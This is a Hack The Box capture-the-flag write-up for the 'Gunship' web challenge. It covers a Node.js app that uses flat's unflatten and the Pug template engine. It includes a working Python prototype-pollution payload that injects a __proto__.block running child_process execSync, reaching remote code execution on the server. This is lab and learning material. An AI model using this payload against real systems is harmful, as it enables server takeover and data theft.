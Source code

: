 ```yaml
---
title: Gunship - Hack The Box
date: 2024-10-20
---
```


# Gunship

![Gunship](/ctf/hack-the-box/challenges/web/gunship/gunship.gif)

## Challenge Description

In this challenge, we were tasked with exploiting a web application named Gunship. The application is a Single Page
Application (SPA), and at the bottom of the page, there is a form where users can submit their favorite artist's name.

We were also provided with the source code of the application, which revealed potential vulnerabilities that could be
leveraged to compromise the system.

![Gunship](/ctf/hack-the-box/challenges/web/gunship/gunship-home.png)

## Code Review

### Key Dependencies

By reviewing the package.json file, we identified that the application uses several Node.js libraries, including:

```json
{
    "dependencies": {
        "express": "^4.17.1",
        "flat": "5.0.0",
        "pug": "^3.0.0"
    }
}
```

::: info Notably:

- Pug (version 3.0.0) is used to render server responses and is known to be vulnerable to prototype pollution.
- Flat (version 5.0.0), a library that converts nested objects into flat key/value pairs and vice versa, is used in the
  request handling process. The unflatten function from this library also has potential weaknesses that allow for
  prototype pollution.
  :::

### Endpoint Analysis

The form submits user input via a POST request to the /api/submit endpoint. The vulnerable portion of the server-side
code can be seen below:

```javascript
const { unflatten } = require("flat");

router.post("/api/submit", (req, res) => {
    const { artist } = unflatten(req.body);

    if (artist.name.includes("Haigh") || artist.name.includes("Westaway") || artist.name.includes("Gingell")) {
        return res.json({
            "response": pug.compile("span Hello #{user}, thank you for letting us know!")({ user: "guest" }),
        });
    } else {
        return res.json({
            "response": "Please provide us with the full name of an existing member.",
        });
    }
});
```

- Pug is used to render the response based on user input.
- The unflatten function processes the request body. However, it is vulnerable to prototype pollution, allowing us to
  manipulate the object prototype.

## Exploitation - Prototype Pollution

### Vulnerability: Prototype Pollution

By exploiting the prototype pollution vulnerability in flat’s unflatten function, we can inject arbitrary properties
into the `artist` object’s prototype. This can lead to remote code execution (RCE) through the Pug templating engine.

### Exploit Strategy

We will use Python to craft and send a malicious payload to the vulnerable `/api/submit` endpoint, injecting a `block`
object into the prototype of the `artist` object. This injected object will execute system commands on the server.

```python
import requests

url = "http://localhost:1337/api/submit"

payload = {
    "artist.name": "Haigh",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('$(cat flag*)')"
    }
}

r = requests.post(url, json=payload)
print(r.json())
```

### Explanation of the Payload

- **Prototype Injection**: The payload injects the `block` object into the prototype of the `artist` object using the
  `__proto__` property.
- **Command Execution**: The `block.line` property is set to execute a command using **Node.js** to read a file that
  starts
  with `flag` (`cat flag*`), typically containing the challenge flag.
- **Why `$()`?**: The `$()` syntax ensures that the command (`cat flag*`) is evaluated and executed by the system.

### Result of the Exploit

After sending the crafted payload, the server returns the following response:

```
HTB{f4k3_fl4g_f0r_t3st1ng}
```

We got the flag!
Now you can try this on the HTB server to get the real flag.

![Gunship](/ctf/hack-the-box/challenges/web/gunship/gunship-pwned.png)

## References

- [Github - pug - Code Injection](https://github.com/pugjs/pug/issues/3312)
- [Hacktricks - Pug Prototype Pollution](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution#pug-vulnerability)